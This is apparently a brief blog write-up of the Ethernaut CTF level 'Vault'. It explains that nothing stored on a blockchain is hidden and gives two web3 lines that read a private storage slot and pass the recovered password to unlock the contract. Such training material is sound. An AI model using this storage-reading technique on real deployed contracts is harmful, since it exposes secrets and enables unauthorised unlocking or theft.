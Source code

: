 +++
title = 'Ethernaut Level 8 - Vault'
date = 2024-04-09 01:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Nothing is hidden on the blockchain'
tags = [ 'writeups' , 'blockchain' ]
+++
> Nothing is hidden on the blockchain
https://medium.com/coinmonks/smart-contract-exploits-part-1-featuring-capture-the-ether-lotteries-8a061ad491b


```js
// Leak 32 bytes at offset 1
await web3.eth.getStorageAt(contract.address, 1)
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29") 
```

